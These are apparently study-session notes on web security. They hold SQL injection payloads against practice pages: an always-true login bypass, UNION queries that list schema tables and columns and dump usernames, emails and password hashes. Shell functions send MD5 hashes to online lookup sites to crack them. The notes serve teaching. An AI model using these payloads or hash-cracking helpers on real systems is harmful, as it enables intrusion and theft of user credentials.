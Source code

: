 ## 勉強会 5月27日

http://example.com/bad/check-inj.php
http://example.com/bad/bad-inj.php
http://example.com/bad/bad-inj-show.php

```
ed@example.com
a" OR 1 = 1 -- 

a" UNION ALL SELECT TABLE_SCHEMA,TABLE_NAME from information_schema.TABLES; -- 
a" UNION ALL SELECT COLUMN_NAME,COLUMN_TYPE from information_schema.COLUMNS where TABLE_NAME = "my_users"; -- 

a" UNION ALL SELECT user_login,user_pass from my_users; -- 
a" UNION ALL SELECT user_email,user_pass from my_users; -- 
```


http://www.md5online.org/

```sh
function getmd5    { md5 -s $@ | cut -d' ' -f 4 ; }             && export -f getmd5
function decodemd5 { curl http://md5.gromweb.com/query/${1} ; } && export -f decodemd5
function test_pass { decodemd5 $(getmd5 $1) ; }                 && export -f test_pass

function slow_decode_md5 {
    curl http://www.md5online.org/ --silent -X POST -d "md5=${1}&search=0&action=decrypt&a=11661742" \
    | grep "class=\"result\" id=\"loading\"" ;
} && export -f slow_decode_md5
function slow_test_pass { slow_decode_md5 $(getmd5 $1) ; } && export -f slow_test_pass
```

slow_decode_md5 41ba3c6e60b36f1baeed1cd9cb1ccb15
decodemd5 2a9d119df47ff993b662a8ef36f9ea20
decodemd5 59048c039f90319993ca534cbf86c95e


Injection
Xss
Password hashing and rainbow tables

Two-factor authentication
Heart bleed 
Visible files from web server

